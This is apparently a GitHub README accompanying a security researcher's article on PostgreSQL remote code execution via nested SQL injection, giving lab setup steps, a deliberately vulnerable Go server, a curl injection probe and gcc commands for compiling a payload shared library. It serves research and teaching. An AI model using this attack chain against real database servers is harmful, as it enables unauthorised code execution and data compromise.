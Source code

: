 # PostgreSQL RCE PoC via nested SQLi queries
This is a supporting material for my article at my [website](https://adeadfed.com/posts/postgresql-select-only-rce/). Go check it out if you haven't already!

### Setting up the server
1. Install the Postgresql Docker container
```
docker run --name poc-postgres-sqli-rce -p 5432:5432 -e POSTGRES_PASSWORD=mysecretpassword -d postgres
```
2. Connect to the DB and create `poc_user` with limited DB permissions 
```
CREATE USER poc_user WITH PASSWORD 'poc_pass'

GRANT pg_read_server_files TO poc_user
GRANT pg_write_server_files TO poc_user

GRANT USAGE ON SCHEMA public TO poc_user
GRANT SELECT, INSERT, UPDATE, DELETE ON TABLE pg_largeobject TO poc_user

GRANT EXECUTE ON FUNCTION lo_export(oid, text) TO poc_user
GRANT EXECUTE ON FUNCTION lo_import(text, oid) TO poc_user
```
3. Clone the repo and run this Go module
```
git clone https://github.com/adeadfed/psql-golang-rce-poc
cd psql-golang-rce-poc/go_server
go run poc
```

### SQLi PoC
```
curl http://localhost:8000/phrases?id=1'
```

### Compiling the shared library
1. Install correct dev dependencies for the major version of the vulnerable PSQL server
```
sudo apt install postgresql-13 postgresql-server-dev-13 -y 
```
2. Compile the lib with gcc
```
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```
